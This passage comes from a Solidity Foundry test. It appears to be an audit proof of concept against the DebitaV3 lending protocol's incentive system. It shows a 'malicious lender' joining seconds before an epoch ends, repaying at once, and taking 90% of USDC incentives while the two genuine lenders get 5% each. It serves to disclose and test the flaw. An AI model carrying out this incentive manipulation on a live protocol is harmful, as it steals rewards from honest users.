```solidity
        indexForCollateral_LendOrder,
        indexPrinciple_LendOrder
    );

    DebitaV3LoanContract = DebitaV3Loan(loan);
    vm.stopPrank();

    // a few seconds later, he repays his debt
    vm.warp(block.timestamp + 15);
    vm.startPrank(thirdLender);
    uint[] memory indexes = allDynamicData.getDynamicUintArray(1);
    indexes[0] = 0;
    IERC20(AERO).approve(address(DebitaV3LoanContract), 1000e18);
    DebitaV3LoanContract.payDebt(indexes);
    vm.stopPrank();
        
    address[] memory tokenUsedIncentive = allDynamicData
        .getDynamicAddressArray(1);
    address[][] memory tokenIncentives = new address[][](
        tokenUsedIncentive.length
    );
    tokenUsedIncentive[0] = USDC;
    tokenIncentives[0] = tokenUsedIncentive;

    vm.startPrank(firstLender);
    uint balanceBefore_First = IERC20(USDC).balanceOf(firstLender);
    incentivesContract.claimIncentives(principles, tokenIncentives, 2);
    uint balanceAfter_First = IERC20(USDC).balanceOf(firstLender);
    vm.stopPrank();

    vm.startPrank(secondLender);
    uint balanceBefore_Second = IERC20(USDC).balanceOf(secondLender);
    incentivesContract.claimIncentives(principles, tokenIncentives, 2);
    uint balanceAfter_Second = IERC20(USDC).balanceOf(secondLender);
    vm.stopPrank();

    vm.startPrank(thirdLender);
    uint balanceBefore_Third = IERC20(USDC).balanceOf(thirdLender);
    incentivesContract.claimIncentives(principles, tokenIncentives, 2);
    uint balanceAfter_Third = IERC20(USDC).balanceOf(thirdLender);
    vm.stopPrank();
        
    uint claimedFirst = balanceAfter_First - balanceBefore_First;
    uint claimedSecond = balanceAfter_Second - balanceBefore_Second;
    uint claimedThird = balanceAfter_Third - balanceBefore_Third;

    // initially, the two lenders had 50% each, now they have 5%
    // due to the malicious lender stepping in 10 seconds before the epoch ended
    uint amount = (1000e18 * 500) / 10000;

    assertEq(claimedFirst, claimedSecond);
        
    assertEq(claimedFirst, amount);

    uint amountThird = (1000e18 * 9000) / 10000;

    assertEq(claimedThird, 1000e18 - claimedFirst - claimedSecond);
        
    assertEq(claimedThird, 900e18);
}
```
